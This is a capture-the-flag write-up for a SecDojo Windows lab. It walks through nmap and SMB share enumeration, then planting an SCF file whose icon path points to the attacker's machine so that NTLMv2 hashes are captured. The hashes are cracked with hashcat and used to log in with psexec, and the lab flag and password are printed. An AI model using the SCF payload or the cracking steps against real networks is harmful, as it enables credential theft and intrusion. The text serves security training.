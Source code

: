 ```yaml
---
title: "SecDojo - T4lk2m3 Lab"
author: [Sesco]
subtitle: "T0m Machine Write Up"
date: "2023-01-01"
keywords: [Windows, Security, CTF, Hacking]
lang: "en"
titlepage: true
titlepage-text-color: "FFFFFF"
titlepage-color: "243763"
titlepage-rule-color: "8ac53e"
...
```



# Information

- **Name:** T4lk2m3 Lab - T0m Machine
- **Profile:** SecDojo
- **Difficulty:** Medium
- **Description:** The "T4lk to m3" lab, contains two Microsoft Windows machines. To achieve access and obtain the Flags, you will have to conduct an SMB relay attack on those machines. One of those machines contains some SCF files. Learn how to use SCF files to grab juicy pieces of information.


# Enumeration

## Nmap

Initial nmap scan.

```console
$ nmap -Pn -sC -sV 172.16.4.179
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-01 15:40 UTC
Nmap scan report for 172.16.4.179
Host is up (0.00027s latency).
Not shown: 994 filtered tcp ports (no-response)
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Windows Server 2012 R2 Standard 9600 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
|_ssl-date: 2023-01-01T15:42:25+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=WIN-8EHFSR9B2UL
| Not valid before: 2022-12-31T15:36:07
|_Not valid after:  2023-07-02T15:36:07
| rdp-ntlm-info: 
|   Target_Name: WIN-8EHFSR9B2UL
|   NetBIOS_Domain_Name: WIN-8EHFSR9B2UL
|   NetBIOS_Computer_Name: WIN-8EHFSR9B2UL
|   DNS_Domain_Name: WIN-8EHFSR9B2UL
|   DNS_Computer_Name: WIN-8EHFSR9B2UL
|   Product_Version: 6.3.9600
|_  System_Time: 2023-01-01T15:41:45+00:00
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2023-01-01T15:41:45
|_  start_date: 2023-01-01T15:34:44
| smb2-security-mode: 
|   3.0.2: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: WIN-8EHFSR9B2UL, NetBIOS user: <unknown>, NetBIOS MAC: 06:0f:3a:c9:f1:64 (unknown)
| smb-os-discovery: 
|   OS: Windows Server 2012 R2 Standard 9600 (Windows Server 2012 R2 Standard 6.3)
|   OS CPE: cpe:/o:microsoft:windows_server_2012::-
|   Computer name: WIN-8EHFSR9B2UL
|   NetBIOS computer name: WIN-8EHFSR9B2UL\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-01-01T15:41:45+00:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 114.01 seconds
zsh: segmentation fault  nmap -Pn -sC -sV 172.16.4.179
```

Discovered couple of ports and services one of them is SMB port, let's check the available shares.

```console
$ nmap -Pn -p 445 --script smb-enum-shares 172.16.4.179
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-01 15:48 UTC
Nmap scan report for 172.16.4.179
Host is up (0.00031s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-enum-shares: 
|   account_used: guest
|   \\172.16.4.179\ADMIN$: 
|     Type: STYPE_DISKTREE_HIDDEN
|     Comment: Remote Admin
|     Anonymous access: <none>
|     Current user access: <none>
|   \\172.16.4.179\C$: 
|     Type: STYPE_DISKTREE_HIDDEN
|     Comment: Default share
|     Anonymous access: <none>
|     Current user access: <none>
|   \\172.16.4.179\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: Remote IPC
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\172.16.4.179\compta: 
|     Type: STYPE_DISKTREE
|     Comment: windows lab
|     Anonymous access: READ
|     Current user access: READ/WRITE
|   \\172.16.4.179\deepwin: 
|     Type: STYPE_DISKTREE
|     Comment: windows lab
|     Anonymous access: READ
|     Current user access: READ/WRITE
|   \\172.16.4.179\orga: 
|     Type: STYPE_DISKTREE
|     Comment: windows lab
|     Anonymous access: READ
|     Current user access: READ/WRITE
|   \\172.16.4.179\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Anonymous access: READ
|_    Current user access: READ
```

So there's seven available shares and it looks like the most suspicious shares are **compta**, **deepwin** and **orga** and they can be accessed anonymously.

One of the shares has a zip file, after downloading and unzipping the file I found another file **file.scf**.

![](./img-01.png)

```console
$ cat file.scf
[shell]
command=2
IconFile=\\172.31.31.144\\compta\\hacked.ico
[taskbar]
Command=ToogleDesktop
```

## Exploitation

Now this is interesting the .SCF file can be used in **SMB Relay Attack** and that's because of its nature and that is when you browse to a location that contains SCF file the IconFile will be retrieved automatically.

The SMB Relay Attack requires us to set [UNC](https://learn.microsoft.com/en-us/dotnet/standard/io/file-path-formats#:~:text=%3A%5CFY2018%5CFY2018-,UNC%20paths,well%20as%20v6%20are%20supported) path with our PWN machine IP address and in the PWN machine we'll try to listen and capture user's login credentials, and there's a module in metasploit that allow us to do that.

But before using the module we have to put our modified SCF file into the share and to do that we'll have to mount the share to one of our local folders, we can do that with this command.

```console
$ sudo mount.cifs //Attacker_IP_Adress/compta ./LocalFolder -o user=Anonymous,uid=$UID
```

```console
[shell]
command=2
IconFile=\\Our_IP_Address\\compta\\hacked.ico
[taskbar]
Command=ToogleDesktop
```

All we have to do now is start listening and browse to the compta share with `smbclient` utility.

![](./img-02.png)

And that's our NTLMv2 hash for Administrator user which requires cracking, and so I did with `hashcat` utility.

```console
$ hashcat -m 5600 admin_ntlmv2 /usr/share/wordlists/rockyou.txt  -o cracked.txt
```

![](./img-03.png)

This is our password cracked **P@ssw0rd**, let's try and login to the windows machine using `psexec.py` utility.

![](./img-04.png)

That's it we are in.

## Root Flag

Proof of concept.

![](./img-05.png)

**Flag:** **`Tom_Sesco-68dzkyr35ix5gufsp0i3zttdm44e91y8`**

## Resources

- [SCF File Attacks 1](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/) 
- [SCF File Attacks 2](https://www.bleepingcomputer.com/news/security/you-can-steal-windows-login-credentials-via-google-chrome-and-scf-files/)